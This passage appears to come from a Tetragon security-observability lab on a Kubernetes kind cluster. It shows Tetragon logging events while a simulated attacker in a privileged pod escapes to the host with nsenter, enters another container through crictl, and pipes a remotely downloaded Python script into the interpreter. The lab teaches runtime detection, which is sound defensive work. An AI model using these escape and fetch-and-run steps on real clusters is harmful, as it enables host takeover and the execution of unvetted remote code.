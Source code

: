 #### Terminal 2:

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --process curl,python
🚀 process kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /usr/bin/python              🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/bin/curl tcp 10.244.0.5:40670 -> 185.199.109.133:443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/bin/curl tcp 10.244.0.5:40670 -> 185.199.109.133:443 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 0 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/python  0  🛑 CAP_SYS_ADMIN



```

#### Terminal 3:

```bash
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# CONT_ID=$(crictl ps --name hack-latest --output json | jq -r '.containers[0].id')
echo $CONT_ID
06bebbe843b31977685483f6fc897f45442486ac55bde237399499b6445c4c07
root@kind-control-plane:/# crictl exec -it $CONT_ID /bin/bash
PRETTY_NAME="Alpine Linux v3.12"
root@hack-latest-kind-control-plane:~ [0]# curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   488  100   488    0     0   1952      0 --:--:-- --:--:-- --:--:--  1944
root@hack-latest-kind-control-plane:~ [0]# 
```


## 🏆 Final Exam Challenge
This last challenge is an exam that will allow you to win a badge.

Make sure to finish the lab in order to get your badge!
